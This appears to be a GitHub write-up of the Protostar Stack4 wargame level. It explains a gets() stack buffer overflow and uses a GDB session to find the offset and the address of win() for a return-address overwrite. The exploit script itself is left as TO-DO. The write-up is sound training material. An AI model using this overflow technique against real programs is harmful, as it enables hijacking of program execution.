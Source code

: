 # Stack4 Solution

## C Code

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do `run < input`
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```


## Return Address

Now, we are given the **same task as** [stack3](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack3), only with **no function pointer**.
You may be wondering, how do we do this. The way to do it is by using something called a **return address**. A return address is a **value pushed onto the stack** 
that **tells the program where to resume execution** (the next instruction) after a **function call completes**. At the end of a function call, a `ret` **instruction is
always placed at the end**. What the `ret` instruction does is **change EIP to the return address**, then **pop the return address** off of the stack.

## Vulnerability

*Again*, you may be asking how do we use this to go the the `win()` function. The answer lies in **overflowing the stack values by means of** `gets()` (which is vulnerable to buffer overflows) **until we reach the return address, then
changing it**. But one of the hints were that **EIP (Return Address) is not directly after the end of buffer because of padding and compiler optimizations**. 

## Stack Visualization

Here is a **visual** of the stack

```
[ Buffer (64 bytes) ]
[ Saved EBP (4 bytes) ]
[ Return Address (4 bytes) ]
[ Other Stuff ]
```

Remember, the byte amount can **shift** due to compiler optimizations, stack misalignments, and padding.

## Exploit

Ok, so now we have a **rough idea**, let's get our padding sizing and memory addresses.

First, let's throw a **long string** at the binary in GDB.

To do that, **disassemble** `main()` and set a breakpoint at the `ret` instruction.

```bash
user@protostar:/opt/protostar/bin$ gdb stack4
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) break *main+22
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) 
```

Now that we have **our breakpoints set**, let's **run it** and provide `QQQQWWWWEEEERRRRTTTTYYYY....` as input. After that, let's check out all of our registers to see **what letter overwritten EBP**.

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack4 
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x4c4c4c54
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info registers
eax            0xbffff760       -1073744032
ecx            0xbffff760       -1073744032
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7ac       0xbffff7ac
ebp            0x4c4c4c4c       0x4c4c4c4c
esi            0x0      0
edi            0x0      0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Now, **we see that EBP was overwritten** to `0x4c4c4c4c`, which is `LLLL` in ASCII. That means to **overwrite the return address**, we need to **first pass** `QQQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`. Then, we can **overwrite the return address with anything we want** by just **appending it to the end** of the string.

```bash
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) 
```

Once we continue (`c`), we see that the **return address got overwritten** to `0x5a5a5a5a` (`ZZZZ`) because the **program tried to go to that memory address** which is of course **illegal**. That **checks out** with the EBP overwrite because `ZZZZ` was **right after** `LLLL` in the input string, which **matches up perfectly with our stack visual** from earlier. 

So now we need to get the **memory address** of the `win()` function. Do to that, we use the `p` command in GDB to **print the value of whatever comes after it**.

```bash
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb) 
```

We see that the **memory address** of `win()` is `0x80483f4`. Now we have *everything* needed to **create our exploit script**.

**TO-DO**

## Resources

* [C Code](https://exploit.education/protostar/stack-four/)
* [Geeks for Geeks Article on Return Addresses](https://www.geeksforgeeks.org/dsa/how-is-return-address-specified-in-stack/)


